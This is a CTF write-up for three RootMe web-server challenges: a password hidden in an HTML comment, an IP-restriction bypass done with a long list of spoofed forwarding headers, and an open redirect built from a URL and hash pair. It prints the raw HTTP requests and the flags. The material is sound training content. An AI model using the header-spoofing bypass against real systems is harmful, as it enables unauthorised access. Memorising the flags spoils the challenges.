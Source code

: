 ```yaml
---
title: RootMe WebServer 01-03
date: 2023-11-03 
categories: [RootMe, WebServer]
tags: [RootMe, RootMe - WebServer, WriteUp]
author: barabulkit
---
```


# 01 - HTML - Source Code

Flag is just in response when we are trying to log in
```html
<!--
Je crois que c'est vraiment trop simple là !
It's really too easy !
password : nZ^&@q5&sjJHev0
-->
```

flag is `nZ^&@q5&sjJHev0`

# 02 - HTTP - IP Restriction bypass

We need to emulate behaviour that we are under private network ip, we can do it by adding headers to request
```http
GET /web-serveur/ch68/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1696866076.1.1.1696866180.0.0.0; _ga=GA1.1.1934363986.1696866077
Upgrade-Insecure-Requests: 1
X-Azure-ClientIP: 192.168.1.1
X-Azure-SocketIP: 192.168.1.1
X-Originating-IP: 192.168.1.1 
X-Forwarded-For: 192.168.1.1 
X-Remote-IP: 192.168.1.1 
X-Remote-Addr: 192.168.1.1
X-Real-Ip: 192.168.1.1 
X-Target-IP: 192.168.1.1 
X-Forwarded-Host: localhost
True-Client-IP: 192.168.1.1 
X-Original-URL: 192.168.1.1 
Front-End-Https: 192.168.1.1 
X-host: 192.168.1.1 
Forwarded: for=192.168.1.1;proto=http;by=192.168.1.1
True-Client-Ip: 192.168.1.1
Forwarded:192.168.1.1
X-Forwarded-Host:192.168.1.1 
Via: 192.168.1.1  
```

and we will get flag `Ip_$po0Fing`

# 03 - HTTP - Open redirect

Service in this challenge takes url and its hash as param, we will get flag if we redirect it on any domain that is not already presented under buttons in this service

```http
GET /web-serveur/ch52/?url=https://vk.com&h=fa4448c13e06e69ba9e814e8743c7e2e HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://challenge01.root-me.org/web-serveur/ch52/
Cookie: _ga_SRYSKX09J7=GS1.1.1696866076.1.1.1696866180.0.0.0; _ga=GA1.1.1934363986.1696866077
Upgrade-Insecure-Requests: 1
```

and we will get flag `e6f8a530811d5a479812d7b82fc1a5c5`
